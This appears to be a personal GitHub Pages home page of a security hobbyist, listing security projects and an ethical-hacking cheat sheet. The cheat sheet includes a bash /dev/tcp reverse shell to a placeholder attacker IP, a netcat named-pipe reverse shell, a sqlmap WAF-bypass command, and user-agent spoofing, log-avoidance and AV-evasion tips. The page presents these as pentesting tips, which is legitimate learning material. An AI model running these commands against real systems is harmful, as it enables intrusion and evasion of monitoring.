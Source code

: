 ```yaml
---
layout: default
title: Home
---
```


# 🖥️ Welcome to WebPro's Hacker Space 🖥️
<img class="moving-mascot" src="https://github.githubassets.com/assets/mona-loading-default-c3c7aad1282f.gif" alt="Hacker Mascot" width="100" style="margin: 10px;">

<style>
    @keyframes moveAcross {
        from {
            right: -100px; /* Start off-screen on the right */
        }
        to {
            right: 100%; /* Move all the way to the left */
        }
    }

    .moving-mascot {
        position: absolute;
        top: 800px; /* Adjust as needed */
        right: -100px; /* Start off the right side of the page */
        animation: moveAcross 20s linear infinite; /* Moves across the screen in 5 seconds */
    }
</style>



Welcome to the dark side of the internet, where we explore cybersecurity, vulnerabilities and even cutting-edge technology.

---

## 🚀 Latest Projects 🚀

Here are some of the cool projects I’ve been working on:

- 📡 [Exploitation-Module](https://github.com/webpro255/Exploitation-Module) – Automated tool for scanning, fetching, and logging exploit attempts.
- 🛠️ [HiddenSecTools](https://github.com/webpro255/HiddenSecTools) – A repository of hidden security tools.
- 🔍 [EventViewer-LogHunting](https://github.com/webpro255/EventViewer-LogHunting) – Hunt for security-relevant logs with Windows Event Viewer.
- 🛡️ [WordPress Forensics](https://github.com/webpro255/wordpress-forensics-tool) – Forensics tools specifically for WordPress investigations.
- 📊 [ELK-SOC-Tips](https://github.com/webpro255/ELK-SOC-Tips) – Tips and techniques for setting up an ELK stack in a SOC environment.
- 📡 [Network Traffic Visualization](https://github.com/webpro255/network-traffic-visualization) – Visualize network traffic in a clear and concise way.
- 🔧 [IT Support Scripts](https://github.com/webpro255/it-support-scripts) – A collection of useful scripts for IT support.
- 🔐 [IAM Policy Simulator](https://github.com/webpro255/iam-policy-simulator) – A project to simulate IAM policies for cloud security.
- 🔍 [Network Scanning Tools](https://github.com/webpro255/network-scanning-tools) – A collection of tools for network scanning and reconnaissance.
- 📈 [Network Anomaly Detection](https://github.com/webpro255/network-anomaly-detection) – Detect network anomalies using these tools and techniques.

---

## 👨‍💻 About Me 👨‍💻

I am WebPro, passionate about cybersecurity, ethical hacking and building tools. I love experimenting with new technologies, finding vulnerabilities and sharing my knowledge with the community.

---
## 🕵️ Cybersecurity Challenge 🕵️

Want to test your skills? Try to crack the password in my **[Password Cracker Game](./cyber-game.html)** and see how quickly you can break in!

## 🎮 Play another Game 🎮

Feeling like taking a break? Try your hand at the **[Guess the Number Game](./game.html)** and see if you can guess the correct number!

---
## 🧠 Hacker's Cheat Sheet 🧠

Only true hackers will appreciate these gems—cutting-edge tips and tricks that can elevate your penetration testing and ethical hacking skills. 

### 🔥 1. Command Line Kung Fu

- **List all open ports** (with process info) on Linux:
  ```bash
  sudo netstat -tuln -p
  ```
> Quickly see what's open on your system without needing fancy tools.

- Find all hidden files on a Linux machine:
  ```
  find / -name ".*" -type f
  ```
> Great for uncovering hidden configurations or malicious scripts.

- Fast directory scanning with FFUF:
  ```
  ffuf -w /path/to/wordlist.txt -u https://example.com/FUZZ -e .php,.html,.txt -o output.txt
  ```
> Quick and powerful fuzzing to discover hidden directories.

### 🚀 2. Hidden Gems in Wireshark

- Capture only HTTP GET requests:

```
http.request.method == "GET"
```
> Skip the noise and capture just the GET requests to hunt for interesting activity.

- Filter for suspicious DNS activity:
  ```
  dns.qry.name == "evil.com"
  ```
> Target specific DNS queries to detect if someone's reaching out to malicious domains.

### 🔒 3. Bypass Techniques

- **Bypass WAF using SQLMap with tamper scripts**:
    ```bash
    sqlmap -u "http://example.com/vuln.php?id=1" --tamper=space2comment --level=5 --risk=3
    ```
    > Get around pesky WAFs with a tamper script and crank up the aggression.

- **Custom User-Agent to fool detection systems**:
    ```bash
    curl -A "Googlebot/2.1 (+http://www.google.com/bot.html)" http://target.com
    ```
    > Impersonate a search engine crawler to bypass access restrictions.

### 🛡️ 4. Advanced Reverse Shells

- **Obfuscated Netcat reverse shell**:
    ```bash
    mkfifo /tmp/lolpipe; nc 0</tmp/lolpipe | /bin/sh >/tmp/lolpipe 2>&1; rm /tmp/lolpipe
    ```
    > Use named pipes to create stealthier reverse shells, harder to detect by basic monitoring.

- **Bash TCP reverse shell** (for when Netcat isn’t available):
    ```bash
    bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
    ```
    > Minimal footprint, effective on many Unix-based systems.

### 💻 5. Stealth Techniques

- **Avoid logging by executing commands in memory (Linux)**:
    ```bash
    exec /bin/bash 0</dev/null 2>/dev/null
    ```
    > Run commands in a way that avoids leaving traces in `/var/log` files.

- **Evade AV detection with PowerShell base64 encoding**:
    ```bash
    powershell.exe -EncodedCommand <Base64 Encoded Command>
    ```
    > Hide your PowerShell commands by encoding them in Base64, bypassing some AV detection.

### 🛠️ 6. Tools You Might Not Know (But Should)

- [**Obsidian**](https://obsidian.md/) – A tool for creating encrypted vaults of notes and penetration testing playbooks.
- [**Chaos Reader**](http://chaosreader.sourceforge.net/) – Parse, analyze, and extract files from packet capture (.pcap) files.
- [**LinEnum**](https://github.com/rebootuser/LinEnum) – A Linux enumeration script to quickly find privilege escalation vectors.

### 🎯 7. Fuzzing on Steroids

- **Fuzzing APIs with POST requests using FFUF**:
    ```bash
    ffuf -w wordlist.txt -X POST -d "parameter1=value&FUZZ=value" -u https://target.com/api/endpoint -o output.json
    ```
    > Quickly find API vulnerabilities by fuzzing POST request bodies.

- **Fuzzing JSON APIs with AFL (American Fuzzy Lop)**:
    ```bash
    afl-fuzz -i input/ -o output/ -- ./target_binary @@
    ```
    > Use AFL to find memory corruption issues in JSON parsers, or other binary targets.

💡 **Bonus Tip**: Always remember to document your findings in detail. Hacking without reporting is just half the work. 😉


## 🤝 Connect with Me 🤝

Follow me on [GitHub](https://github.com/webpro255) for the latest updates, tools, and resources!
<img class="moving-mascot" src="https://github.githubassets.com/assets/mona-loading-default-c3c7aad1282f.gif" alt="Hacker Mascot" width="100" style="margin: 10px;">

<style>
    @keyframes moveAcross {
        from {
            right: -100px; /* Start off-screen on the right */
        }
        to {
            right: 100%; /* Move all the way to the left */
        }
    }

    .moving-mascot {
        position: absolute;
        top: 50px; /* Adjust as needed */
        right: -100px; /* Start off the right side of the page */
        animation: moveAcross 20s linear infinite; /* Moves across the screen in 5 seconds */
    }
</style>

